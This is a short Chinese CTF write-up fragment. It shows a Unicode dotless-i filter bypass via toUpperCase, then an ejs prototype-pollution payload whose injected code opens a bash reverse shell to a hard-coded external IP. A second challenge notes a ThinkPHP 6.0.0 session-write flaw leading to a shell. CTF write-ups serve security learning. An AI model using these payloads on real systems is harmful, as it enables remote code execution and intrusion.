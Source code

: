 

谷歌找到` https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html `,关于`toUpperCase`的一些特性,来绕过`safeKeyword`

payload:`userid=adm%C4%B1n&pwd=a&action=login&Submit=register` | `admın`

最后污染`ejs`来拿到flag(`https://xz.aliyun.com/t/6113#toc-4`)

```
{"Submit":"","lud":1,"__proto__":{"outputFunctionName":"a; global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/39.108.164.219/60003 0>&1\"');//"}}
```



### easy_thinking

www.zip下载源码

输入不存在的路径发现是tp6.0.0,刚好有个session直接写的漏洞

全局搜索session,发现

```php
 $record = session("Record");
            if (!session("Record"))
            {
                session("Record",$data["key"]);
            }
```

然后getshell


